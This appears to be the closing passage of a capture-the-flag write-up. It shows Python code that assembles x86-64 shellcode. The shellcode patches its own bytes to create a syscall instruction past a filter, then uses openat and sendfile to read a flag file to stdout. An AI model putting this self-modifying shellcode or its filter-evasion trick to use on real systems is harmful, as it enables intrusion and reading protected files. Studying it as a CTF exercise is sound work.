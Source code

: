 ```python
# instruction to build `syscall` at runtime:
syscall = """
    inc BYTE PTR [rip]
    .word 0x050e
"""

sc = asm(f"""

    /* load /truly-the-flag into rsi */
    or rbx, flag[rip]
    or rcx, flag+8[rip]
    push rcx
    push rbx
    lea rsi, [rsp]

    /* openat */
    xor rax, rax
    add rax, 0x101
    {syscall}

    /* sendfile */
    push 0x01
    pop rdi
    push rax
    pop rsi
    add r10, 0x1000
    xor rax, rax
    add rax, 0x28
    {syscall}

flag:
    .string "/truly-the-flag"
""")
```
*SHELLCODE provided by TheFlash2k*

and we solved the challenge!